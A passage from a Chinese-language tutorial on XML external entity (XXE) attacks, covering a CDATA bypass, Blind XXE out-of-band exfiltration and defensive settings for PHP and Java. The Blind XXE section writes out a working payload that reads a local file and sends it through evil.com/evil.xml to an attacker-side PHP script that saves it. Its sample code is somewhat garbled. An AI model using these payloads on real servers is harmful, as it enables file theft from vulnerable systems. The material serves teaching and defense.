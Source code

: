     <roottag><! [CDATA["/etc/fstab文件的内容"]]></roottag>
    
其中这个 CDATA 的意思是为 文件内容添加属性：不被解析的普通字符

这样，参数实体的引用就不需要在xml文档解析的时候保持xml闭合,xml 解释器就会直接忽略文件内容的语法规则，达到了绕过的目的

八、Blind XXE
===========

有了参数实体的基础之后，我们就可以进行Blind XXE攻击了。

对于传统的XXE来说，要求有一点，就是攻击者只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件。如果服务器没有回显，通常有两种情况：服务器禁止了外部实体引用；服务器进行了过滤或者展示限制。如果是第二种，就可能出现Blind XXE。简单来说Blind XXE可以构建一条带外信道提取数据。带外数据通道的建立是使用嵌套形式，利用外部实体中的URL发出访问，从而跟攻击者的服务器发生联系。将嵌套的实体声明放入到一个外部文件中，这里一般是放在攻击者的服务器上，这样做可以规避错误。

测试如下：

    <?php
    <?xml version="1.0"?>
    <!DOCTYPE ANY[
    <!ENTITY % file SYSTEM "file:///C:/passwd.txt">
    <!ENTITY % remote SYSTEM "http://evil.com/evil.xml">
    %remote;
    %all;
    	%send;
    ]>
    $data = simplexml_load_string($xml) ;
    echo "<pre>" ;
    print_r($data) ;
    ?>

上面是存在漏洞的页面test.php 。

evil.xml 的内容为：

    <!ENTITY % all "<!ENTITY % send SYSTEM 'http://evil/1.php?file=%file;'>"> 

1.php的内容为：
 

       <?php  
        file_put_contents("1.txt", $_GET['file']) ;  
        ?>  

访问test.php, 也就是模拟攻击者构造XXE请求，然后存在漏洞的服务器会读出file的内容（c:/1.txt），通过带外通道发送给攻击者服务器上的1.php，1.php做的事情就是把读取的数据保存到本地的1.txt中，完成Blind XXE攻击。

九、防御
====
1 直接使用开发语言提供的禁用外部实体的方法



PHP：

    libxml_disable_entity_loader(true);

JAVA:

    DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
    dbf.setExpandEntityReferences(false);


  [1]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210135808.png
  [2]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210135910.png
  [3]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210154732.png
  [4]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210154933.png
  [5]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211131939.png
  [6]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211132137.png
  [7]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211133129.png
  [8]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211133154.png
  [9]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211133946.png